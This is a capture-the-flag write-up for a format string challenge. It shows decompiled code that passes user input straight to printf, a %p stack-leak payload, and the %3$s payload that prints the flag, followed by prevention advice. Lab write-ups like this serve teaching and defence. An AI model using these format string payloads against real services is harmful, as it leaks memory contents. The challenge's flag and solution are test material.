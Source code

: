 Challenge Description
Points: 50
Category: Binary Exploitation / Format String

In the heart of the cyber-conflict, "Mr. Robot's Printing Press" is churning out battlefield intelligence for commanders worldwide. But the press's output console — the Warzone Terminal — has a flaw. Anything you say is echoed back into the network without proper security checks.

Target: nc exploit.cyberbattle.info 9797

Connected to the service and received an ASCII art banner for "MR. ROBOT'S PRINTING PRESS - WARZONE TERMINAL". The challenge name "Operation Echo" and description about echoing input without security checks immediately suggested a format string vulnerability.

Binary Analysis
Using Binary Ninja to decompile the binary revealed the following key code in main():

int32_t main()
{
    FILE* fp = fopen("flag.txt", "r");
    
    if (!fp)
    {
        perror("flag.txt");
        return 1;
    }
    
    fgets(&flag, 0x100, fp);
    fclose(fp);
    setvbuf(__bss_start, nullptr, 2, 0);
    banner();
    
    while (true)
    {
        printf(&data_402234);  // Prints prompt
        char var_118[0x108];
        
        if (!fgets(&var_118, 0x100, stdin))
            return 0;
        
        if (!strncmp(&var_118, "exit", 4))
        {
            puts(&data_402250);
            return 0;
        }
        
        printf(&var_118, &var_118, &var_118, &flag);  // VULNERABILITY!
        puts(&data_402273);
    }
}

The Vulnerability
The critical vulnerability is on this line:

printf(&var_118, &var_118, &var_118, &flag);

Exploitation Process

Step 1: Stack Enumeration
First, I enumerated the stack to understand the memory layout:

$ nc exploit.cyberbattle.info 9797
⚡ EXECUTE PAYLOAD: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x7ffe8dde2240 0x7ffe8dde2240 0x404080 (nil) 0x2ee0f480 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa70252070 (nil) 0x4f00000006 0x2 (nil)

Step 2: Identifying the Flag Location
From the stack dump:
- Position 1: 0x7ffe8dde2240 - Stack address (user input buffer)
- Position 2: 0x7ffe8dde2240 - Same buffer (passed twice)
- Position 3: 0x404080 - Data segment address (flag location!)
- Position 4: (nil) - NULL

The address 0x404080 stood out as a data segment address (0x40xxxx range), which is exactly where a global flag buffer would be stored.

Step 3: Reading the Flag
Since the flag buffer address is at the 3rd position in the printf arguments, I used the format string specifier %3$s to dereference it and print the flag as a string:

$ nc exploit.cyberbattle.info 9797
⚡ EXECUTE PAYLOAD: %3$s
flag{f0rm4t_str1ng_3xpl01t_succ3ss}

Why This Works
The format string %3$s tells printf to:
- Access the 3rd argument (0-indexed would be position 3)
- Treat it as a pointer to a string ($s)
- Dereference the pointer and print the string

Since the 3rd argument contains the address of the flag buffer (0x404080), printf reads from that address and outputs the flag contents.

Key Takeaways
- Format string vulnerabilities occur when user input is passed directly as the format string to functions like printf, sprintf, etc.
- Direct parameter access (%n$x syntax) allows reading from specific stack positions
- Memory layout analysis through stack enumeration helps identify interesting addresses
- Global variables in binaries typically reside in predictable memory regions (data segment ~0x404000)

Prevention
This vulnerability could be prevented by:
- Using printf("%s", user_input) instead of printf(user_input)
- Input validation and sanitization
- Compiler flags like -Wformat-security to catch these issues

Flag: flag{f0rm4t_str1ng_3xpl01t_succ3ss}
